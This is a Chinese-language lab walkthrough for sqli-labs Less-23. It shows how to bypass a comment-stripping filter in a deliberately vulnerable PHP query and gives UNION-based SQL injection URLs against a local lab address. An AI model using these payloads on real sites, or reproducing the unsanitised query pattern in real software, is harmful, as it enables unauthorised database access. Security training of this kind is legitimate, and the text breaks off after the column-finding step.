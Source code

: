 ## 注释符过滤的绕过

### 过滤原理

#### 源码审计

这里没办法做双写绕过，所以只能想办法闭合掉最后的一个单引号

```php
# 注释符过滤，将所有的注释符替换为空
//filter the comments out so as to comments should not work
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

### 注入流程-Less-23

#### 尝试注释符绕过

可以发现成功绕过，并得到报错信息

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,2,3,4 or '1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607133614106.png" alt="image-20230607133614106" style="zoom: 33%;" />

#### 寻找回显位

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,2,3 or '1'='1
```

